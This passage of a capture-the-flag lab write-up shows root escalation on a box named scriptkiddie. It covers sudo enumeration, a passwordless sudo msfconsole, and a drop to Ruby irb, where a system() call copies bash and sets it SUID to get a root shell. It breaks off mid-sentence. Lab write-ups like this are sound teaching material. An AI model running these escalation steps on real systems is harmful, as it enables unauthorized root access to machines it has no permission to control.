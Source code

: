 ## Shell as root

### Enumeration

The first thing I typically check is `sudo`, and it pays off again, as pwn can
run `msfconsole` with `sudo` as root without a password:

    
    
    pwn@scriptkiddie:~$ sudo -l
    Matching Defaults entries for pwn on scriptkiddie:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User pwn may run the following commands on scriptkiddie:
        (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
    

### Shell

On running that, I’ve got a Metasploit terminal as root:

    
    
    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
    ...[snip]...
    msf6 >
    

One way to get a shell from here is to drop to the integrated Ruby shell,
`irb`:

    
    
    msf6 > irb
    [*] Starting IRB shell...
    [*] You are in the "framework" object
    
    irb: warn: can't alias jobs from irb_jobs.
    >> 
    

From there, I can run `system` to run arbitrary commands. One way is to copy
`bash` and set it SUID:

    
    
    >> system("cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf")
    => true
    

Now that will give a root shell:

    
    
    kid@scriptkiddie:~$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1000(kid) gid=1000(kid) euid=0(root) groups=1000(kid)
    

Even simpler, I could run `system("bash")` from `irb`:

    